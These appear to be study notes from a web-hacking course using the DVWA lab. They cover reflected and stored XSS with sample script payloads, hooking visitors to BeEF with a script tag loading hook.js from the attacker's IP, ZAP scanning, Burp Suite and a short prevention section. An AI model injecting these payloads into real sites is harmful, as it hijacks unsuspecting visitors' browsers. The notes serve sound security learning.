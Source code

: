 ### REFLCTED XSS
* No persistent, not stored
* Only work if the target visits a specially crafted URL
* EX
  http://target.com/page.php?something=<script>alert("XSS")</script>
* Go to 'XSS Reflected' in DVWA page of metasploitable.
* In 'what's your name' we can inject '<script>alert("XSS")</script>'.
* This will generate a URL
* Now ==we have sent this URL to the target client=, and when they open it, the code will be executed

### STORED XSS
* Persistent, stored on the page or DB
* The injected code is executed everytime the page is loaded
* An example is reviews. When someone reviews, it will be visible to everyone
* Go to 'XSS stored' in DVWA
* Inject the code in 'message' text box
* Now whenever any user opens this page, this code will be executed

### Exploiting XSS Hooking Vulnerable Page Visitors To BeEF
* Run any JS code
* Beef framework can be used to hook targets
* Inject Beef hook in vulnerable pages
* Execute code from beef

* Start beef in kali
* Go to 'XSS stored' in DVWA
* Inject ==<script src='http://Our_IP:3000/hook.js></script>== in 'message' field, and give any name
* When the target opens this page, they will be hooked

### Preventing XSS Vulns
* Minimize the usage of user input on html.
* ==Escape== any input before inserting it into the page, so that if it is a code, it will never be executed.

## Website Hacking Discovering Vulnerabilities Automatically
* Automatically find vulnerabilities in web apps
* Free and easy to use
* Can also be used for manual testing
* We are going to use ==ZAP==
* Open it and paste the URL we want to crack
* Now the scan result will appear. ==Alerts== is where the vulnerabilities found will be shown. 'Red flags' are the high rissk vulns
* If we right click ob the vuln and choose ==Open it in browser==, it will exploit it for us.

## ==Pentest Methodology== for website hacking
* Info gathering
* For every domain/subdomain
   * Click on every link
      * For every link:
          * Test parameters. Test the data sent in the URL after the == = == sign
* Some websites won't have == = == in their URL. So, we won't be able to see the data that is being sent through URL, it is more hidden. We can see the data and manipulate it using a proxy called ==Burp Suite==.

